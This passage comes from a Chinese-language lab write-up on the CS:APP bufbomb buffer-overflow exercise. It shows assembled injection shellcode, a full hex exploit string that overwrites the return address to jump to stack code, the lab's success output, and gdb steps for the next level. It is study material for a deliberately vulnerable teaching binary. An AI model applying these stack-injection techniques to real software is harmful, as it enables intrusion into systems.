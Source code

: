 用`gcc -m32 -c ans2.s`编译为`ans2.o`

再用`objdump -d ans2.o`得到

```
   0: c7 04 25 00 d1 04 08  movl   $0x7f9d2743,0x804d100
   7: 43 27 9d 7f
   b: 68 9d 8c 04 08        push  $0x8048c9d
  10: c3                    ret
```

再次注意小端

`注入代码 空00前面一共44个  跳转到注入代码入口`

代码入口计算方法 在getbuf里设置断点 打出ebp的值，计算`ebp-0x28=0x55683598` 也就是我们输入的起始值

`c7 04 25 00 d1 04 08 43 27 9d 7f 68 9d 8c 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 98 35 68 55`

测试

```
cat exploit.ans2 | ./hex2raw | ./bufbomb -u cromarmot
Userid: cromarmot
Cookie: 0x7f9d2743
Type string:Bang!: You set global_value to 0x7f9d2743
VALID
NICE JOB!
```

至此我们学会了利用跳转+输入动态植入代码

才发现官方文档有指引我们`The code you place on the stack is called the exploit code. This style of attack is tricky, though, because you must get machine code onto the stack and set the return pointer to the start of this code _(:з」∠)_`

### boom (level 3)

根据官方文档 我们要做两件事
1. 返回我们的cookie
2. 让栈上的值不被发现变化

2怎么可能？又要注入代码又要 不被发现

当在调用前 getbuf所用的栈对于test()函数是未知的 返回以后test也就无法判断getbuf所用的栈是否有被corrupted 所以真正要维护的只有test时候所拥有的所有堆栈以及堆栈指针

根据我们前面的overflow经验 会影响到test有且只有 old ebp 那么

注意到test里的返回值是放在eax里

```
8048db9: e8 36 04 00 00        call   80491f4 <getbuf>
8048dbe: 89 c3                 mov    %eax,%ebx
```

  通过在getbuf的Gets前设置断点 得到old ebp的值

```
(gdb) b *0x80491fa
(gdb) r -u cromarmot
(gdb) x/wx $ebp
0x556835c0 <_reserved+1037760>: 0x556835f0
```
